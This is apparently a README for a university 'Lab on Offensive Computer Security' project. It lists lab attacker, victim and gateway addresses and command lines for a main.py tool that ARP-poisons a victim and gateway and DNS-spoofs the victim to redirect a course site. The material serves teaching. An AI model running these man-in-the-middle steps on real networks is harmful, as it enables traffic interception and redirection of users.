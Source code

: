 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00
or 
192.168.1.1 ?

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "10.0.123.1"`
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "192.168.1.1"`

2. ARP poison the gateway: `sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "192.168.1.1" --ipToSpoof "10.0.123.5"`
3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --ipToSpoof "46.137.139.112"` _canvas.tue.nl_
